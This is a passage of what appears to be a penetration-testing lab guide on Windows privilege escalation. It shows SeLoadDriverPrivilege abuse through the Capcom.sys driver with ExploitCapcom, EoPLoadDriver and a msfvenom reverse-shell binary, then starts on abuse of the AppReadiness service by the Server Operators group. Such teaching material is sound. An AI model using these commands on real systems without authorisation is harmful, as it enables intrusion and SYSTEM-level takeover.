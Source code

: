 ```C
    return true;
}
```

The CommandLine string in this example would be changed to:
```C
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
We would set up a listener based on the` msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

### Automating the Steps

#### Automating with EopLoadDriver
```cmd.exe
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run` ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

### Clean-up

#### Removing Registry Key
```cmd.exe
reg delete HKCU\System\CurrentControlSet\Capcom
```

*NOTE: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".*

***Lab Note: Run as Administrator to complete it successfully*


## Server Operators

#### Querying the AppReadiness Service
```cmd.exe
sc qc AppReadiness
```
We can confirm that this service starts as `SYSTEM` using the `sc.exe` utility.

#### Checking Service Permissions with PsService
```cmd.exe
PsService.exe security AppReadiness
```
This confirms that the Server Operators group has `SERVICE_ALL_ACCESS` access right, which gives us full control over this service.
	`[ALLOW] BUILTIN\Server Operators
                `All`

#### Checking Local Admin Group Membership
```cmd.exe
net localgroup Administrators
```
